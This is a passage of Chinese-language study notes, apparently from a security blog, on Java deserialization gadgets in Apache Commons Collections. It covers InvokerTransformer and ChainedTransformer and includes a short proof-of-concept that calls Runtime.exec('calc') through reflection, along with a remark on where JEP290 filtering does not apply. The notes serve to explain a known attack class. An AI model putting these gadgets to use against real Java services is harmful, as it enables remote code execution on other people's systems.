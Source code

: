   因为JEP290防护的仅仅是`Registry`，而处理远程调用的是`Service Provider`，没有反序列化白名单

## Gadgets

### CommonCollections

#### InvokerTransformer

下文以CC代称

CC中有一个`cc.functors.InvokerTransformer`实现了`cc.Transformer`接口，`InvokerTransformer`的`transform`利用反射创建类实例

```java
// InvokerTransformer.transform
public Object transform(Object input) {
    if (input == null) {
        return null;
    }
    try {
        Class cls = input.getClass();
        Method method = cls.getMethod(this.iMethodName, this.iParamTypes);
        return method.invoke(input, iArgs);
    } catch (Exception ex) {
        ;
    }
}

// EXP
public static void main(String[] args) {
    String cmd = "calc";
    InvokerTransformer transformer = new InvokerTransformer(
          "exec", new Class[]{String.class}, new Object[]{cmd}
    );

    transformer.transform(Runtime.getRuntime());
}
```

#### ChainedTransformer

`cc.functors.ChainedTransformer`可以实现对一个Transformer数组里的Transformer的链式调用，`output | input`

```java
public Object transform(Object object) {
    for (int i = 0; i < iTransformers.length; i++) {
        object = iTransformers[i].transform(object);
    }
    return object;
}
```

调用链很好理解：
